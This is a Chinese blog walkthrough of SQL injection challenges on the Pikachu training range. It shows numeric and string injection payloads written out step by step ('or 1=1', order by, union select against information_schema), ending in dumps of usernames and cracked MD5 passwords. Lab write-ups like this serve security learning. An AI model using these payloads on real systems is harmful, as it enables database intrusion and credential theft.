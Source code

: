 ```yaml
---
title: Pikachu--SQL注入(一)
tags:
  - pikachu
categories:
  - 学习
  - web安全
  - Pikachu
abbrlink: 22ddbd5a
date: 2022-05-06 19:20:43
---
```




## 概述

>  在owasp发布的top10排行榜里，注入漏洞一直是危害排名第一的漏洞，其中注入漏洞里面首当其冲的就是数据库注入漏洞。

一个严重的SQL注入漏洞，可能会直接导致一家公司破产！
SQL注入漏洞主要形成的原因是在数据交互中，前端的数据传入到后台处理时，没有做严格的判断，导致其传入的“数据”拼接到SQL语句中后，被当作SQL语句的一部分执行。 从而导致数据库受损（被脱裤、被删除、甚至整个服务器权限沦陷）。

## QLS注入攻击总体思路

1.  寻找SQL注入位置
2.  判断服务器类型和后台数据类型
3.  针对不同的服务器和数据库特点进行SQL注入攻击



## 步骤

### 数字型注入（post）

首先打开burp抓包，发现时post方法

![1](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220506190944.png)

#### 方法一：利用burp改包

`````
id=1 or 1=1#		
`````

可以看到，页面将所有id的信息返回了，可知存在数字型注入。



![2](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220506190948.png)

```
id=1' 					 报错，可判断存在SQL注入
```



![3](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220506190951.png)

确定回显字段

```
id=1 order by 3			报错
```



![4](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220506191206.png)

```
id=1 order by 2 		存在两个回显，字段数为2
```

![5](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220506191211.png)



```
id=1 union select 1,2		判断回显点，可以在1和2这两处位置，获得我们想要的信息
```

![6](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220506191213.png)



查询数据库名称

```
id=1 union select user(),database() 	 用户名为root@locallhost，数据库为pikachu
```



![7](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220506191216.png)



查询数据库pikachu下的所有表名httpinfo,member,message,users,xssblind

```
id=1 union select 1,group_concat(table_name) from information_schema.tables where table_schema='pikachu'
```



![8](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220506191218.png)



```
id=1 union select 1, group_concat(table_name) from information_schema.tables where table_schema=database()#
```

![9](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220506191221.png)

查询user下所有表名

```
id=1 union select 1, group_concat(column_name) from information_schema.columns where table_name='users'#    
```

![10](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220506191223.png)





```
id=1 union select 1, group_concat(column_name) from information_schema.columns where table_schema=database()#      
```

![11](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220506191226.png)





查询字段username和password的内容

```
id=1 union select group_concat(username),group_concat(password) from users
```

![12](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220506191229.png)



#### 方法二、利用harbar

（Todo代办）



对应账号和MD5加密的密码：

admin：e10adc3949ba59abbe56e057f20f883e（123456）

pikachu：670b14728ad9902aecba32e22fa4f6bd（000000）

test：e99a18c428cb38d5f260853678922e03（abc123）



### 字符型注入（get）

输入： 

```
select id,email from member where username='' or 1=1-- q'
或
?name=%27&submit=查询     %27  == '  get
```

![13](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220506191233.png)



也可以直接在url中的name参数后进行修改

```
name=%27&submit=查询				报错，判断存在SQL注入
```

![14](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220506191236.png)



查询出所有账户数据

```
' or 1=1-- q			
```

![15](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220506191238.png)



确定回显字段

```
' order by 3 -- q		报错
```

![16](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220506191240.png)

```
' order by 2 -- q				有两个回显
```

![17](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220506191243.png)

```
' union select 1,2 -- q				判断回显点
```

![18](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220506191246.png)

```
' union select user(),database() -- q		可知用户名为root@localhost，数据库名为pikachu
```

![19](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220506191249.png)



查询数据库pikachu下的所有表名httpinfo,member,message,users,xssblind

```
' union select 1,group_concat(table_name) from information_schema.tables where table_schema='pikachu' -- q
```

![20](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220506191256.png)

查询user下所有表明 user_id,first_name,last_name,user,password,avatar,last_login,failed_login,id,username,password,level,id,username,password

```
' union select 1, group_concat(column_name) from information_schema.columns where table_name='users' -- q
```

![21](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220506191259.png)

查询字段username和password的内容

```
' union select group_concat(username),group_concat(password) from users -- q
```

![22](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220506191303.png)









---

参考链接： 

无垠安全：https://www.wuyini.cn/952.html

Pikachu靶场通关之SQL注入 - FreeBuf网络安全行业门户：https://www.freebuf.com/articles/web/254079.html
